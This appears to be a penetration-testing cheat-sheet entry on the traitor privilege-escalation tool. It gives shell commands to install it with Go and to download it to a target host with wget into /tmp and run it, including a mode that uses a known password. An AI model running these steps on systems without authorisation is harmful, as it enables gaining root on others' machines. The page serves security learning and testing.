 # Privilege Escalation Using traitor

<div class="row row-cols-lg-2"><div>

[traitor](https://github.com/liamg/traitor) <small>(6.3k ⭐)</small> is an open-source tool to automatically detect common privilege escalation vectors and exploit them.

It's written in GO which you need to install to download the tool.

```shell!
$ sudo apt install golang-go
$ CGO_ENABLED=0 go install github.com/liamg/traitor/cmd/traitor@latest
```

The tool is available at `/home/kali/go/bin/traitor`. It can be uploaded and executed on any host without having them install GO.
</div><div>

To find vulnerable escalation vectors:

```shell!
$ wget [...] -O /tmp/traitor
$ /tmp/traitor
$ /tmp/traitor -p   # if the password is known
```
</div></div>